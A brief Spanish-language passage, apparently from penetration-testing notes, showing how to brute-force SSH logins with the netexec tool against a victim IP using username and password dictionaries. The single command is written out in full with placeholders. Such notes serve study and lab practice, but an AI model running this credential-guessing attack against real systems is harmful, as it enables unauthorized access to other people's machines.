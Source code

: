 - Si tenemos 2 diccionarios con usuarios y contraseñas y queremos saber de forma mas eficiente cuales son las credenciales correctas usamos el siguiente comando:
```
netexec ssh (IP_VICTIMA) -u (DICCIONARIO_USUARIO) -p (DICCIONARIO_PASSWORD) --continue-on-success
```
